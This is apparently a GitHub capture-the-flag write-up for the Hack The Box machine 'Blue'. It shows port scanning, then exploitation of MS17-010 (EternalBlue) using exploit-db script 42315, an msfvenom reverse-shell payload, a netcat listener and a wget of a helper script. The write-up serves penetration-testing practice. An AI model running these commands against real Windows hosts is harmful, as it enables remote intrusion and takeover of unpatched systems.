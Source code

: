 # Blue 

**Links:** [1](https://www.hackthebox.com/machines/Blue)  [2](https://app.hackthebox.com/machines/Blue)

**Machine ip:** 10.10.10.40

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8b31b09-f318-49b3-a8b6-0faa07b52c0d)



## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.40 -e tun0 > ports

sort -n -k4 ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.40 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/541cf98d-1908-45af-a6ea-4bfc302fdf55)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1acc49b7-1b38-4c2f-8f43-2c7d42f91b00)


## Enumeration
```
nmap --script vuln 10.10.10.40
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/be27653c-bed5-41e6-bf76-9b531c32a044)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2017-0144](https://www.exploit-db.com/exploits/42315)
```
searchsploit ms17-010

searchsploit -m 42315

mv 42315.py ms17-010.py
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ff3583a-8c7e-46f7-a6b0-27fbd1a5692b)

Modify username as **guest** in the below python exploit code:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74f3513b-14eb-452e-98ba-2dd5bd2117da)

Uncomment two lines, update the exploit code with the reverse shell executable location and get the script to execute it:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7eb03635-3cf3-4bef-b318-aa69bb2263f0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/521a14ec-bd35-4563-af1e-a7e350f62e53)

```
# On kali attack machine:
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.24 LPORT=4444 -o ms17-010.exe

nc -lnvp 4444

python2 ms17-010.py 10.10.10.40

# On the target machine:
whoami
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1dadd00f-e06d-4a7b-8a2d-b6a4c02286d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b30f7bd-8ec0-4e8b-902b-78ed57b5660b)



# References & Alternatives
+ https://vvmlist.github.io/#blue
+ https://medium.com/@dw3113r/hack-the-box-blue-writeup-without-metasploit-1c6f7e3c586c
  + https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/blue-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2021/05/11/htb-blue.html
+ 


## CVE Scripting
+ **CVE-2017-0144:** https://www.exploit-db.com/exploits/42315
+ **CVE-2017-0143:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


## Tools
+ **mysmb.py:** https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
  + https://github.com/worawit/MS17-010


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ https://msrc.microsoft.com/blog/2017/05/customer-guidance-for-wannacrypt-attacks/
+ 
